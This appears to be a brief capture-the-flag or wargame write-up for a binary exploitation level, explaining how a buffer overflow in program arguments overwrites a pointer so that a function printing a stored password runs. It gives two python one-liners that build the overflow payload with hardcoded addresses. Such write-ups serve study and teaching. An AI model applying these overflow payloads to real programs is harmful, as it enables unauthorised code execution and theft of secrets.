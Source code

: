 Exploit: User input from program arguments is not protected. We are allowed to overflow a buffer and modify a value that is supposed to be the address of an other buffer. This way we can change this address to our function `m` that prints out the global variable `c` which contains the password.

```
first_arg = python -c 'print "A" * 20 + "\x08\x04\x99\x28"[::-1]'
second_arg = python -c 'print "\x08\x04\x84\xf4"[::-1]'
```
